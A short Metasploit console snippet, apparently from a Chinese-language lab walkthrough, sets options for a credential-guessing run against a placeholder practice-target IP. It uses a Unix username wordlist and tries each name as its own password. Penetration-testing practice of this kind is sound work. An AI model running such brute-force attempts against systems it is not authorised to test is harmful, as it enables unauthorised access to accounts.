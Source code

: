 # 設定參數
set THREADS 3
set RHOSTS <靶機 IP>
set STOP_ON_SUCCESS true
set VERBOSE true
set USER_FILE /usr/share/wordlists/metasploit/unix_users.txt
set USER_AS_PASS true
run
# Output 如圖
